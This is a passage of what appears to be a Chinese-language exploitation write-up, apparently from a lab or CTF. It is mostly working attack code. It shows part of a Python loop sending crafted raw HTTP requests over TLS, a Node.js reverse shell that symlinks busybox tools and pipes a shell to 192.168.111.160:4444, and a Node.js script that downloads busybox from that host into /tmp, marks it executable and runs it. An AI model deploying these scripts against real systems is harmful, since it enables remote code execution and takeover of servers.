Accept: */*\r
\r
"+payload
 
        _socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        _socket.connect((ip, 4433))
        _default_context = ssl._create_unverified_context()
        _socket = _default_context.wrap_socket(_socket)
        _socket.sendall(data)
        res = _socket.recv(1024)
        print(res)
        if b"HTTP/1.1" not in res:
            print("Error detected")
            print(CL)
            break
    except Exception as e:
        print(e)
        print("Error detected")
        print(CL)
        break
 
```

接下来有了busybox之后 我们就可以回到带sh环境下去进行攻击了 只是把/bin/busybox改为/tmp/busybox



#### nodejs渲染进行反弹shell(通过前面的方式去得到busybox)

js文件

```
const net = require('net');
const cp = require('child_process');

const busyboxPath = '/tmp/busybox';
const cmds = ['sh', 'ls', 'cat', 'wget', 'ps', 'netstat']; // 需要软链的命令列表

function setupBusyboxLinks() {
    const { execSync } = cp;
    try {
        cmds.forEach(cmd => {
            // 注意：所有命令都用 /tmp/busybox 调用
            execSync(`${busyboxPath} ln -sf busybox ${cmd}`, { cwd: '/tmp' });
        });
    } catch (e) {
        // 失败忽略
    }
}

setupBusyboxLinks();

const client = new net.Socket();

client.connect(4444, '192.168.111.160', () => {
    const sh = cp.spawn(busyboxPath, ['sh'], {
        env: Object.assign({}, process.env, {
            PATH: `/tmp:${process.env.PATH || ''}`
        })
    });

    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);

    sh.on('exit', () => {
        client.end();
    });
});

client.on('error', () => {
    client.end();
});

```



nodejs渲染通过js来模拟wget请求下载busybox并且赋权

js文件

```
const http = require('http');
const fs = require('fs');
const { exec } = require('child_process');

// 指定攻击机的 IP 地址和路径
const url = 'http://192.168.111.160/busybox';
const outputPath = '/tmp/busybox';  // 文件保存路径

http.get(url, (response) => {
    const fileStream = fs.createWriteStream(outputPath);
    response.pipe(fileStream);

    fileStream.on('finish', () => {
        console.log('下载成功！');

        // 设置执行权限，确保文件可执行
        fs.chmod(outputPath, 0o755, (err) => {
            if (err) {
                console.log('赋权失败:', err);
                return;
            }
            console.log('文件权限已更新，允许执行！');

            // 通过 busybox 执行反弹 shell 或其他操作
            exec(`/tmp/busybox`, (err, stdout, stderr) => {
                if (err) {
                    console.error('执行失败:', stderr);
                    return;
                }
                console.log('执行输出:', stdout);
            });
        });
    });
}).on('error', (err) => {
    console.log('下载失败:', err);
});
```



## ​
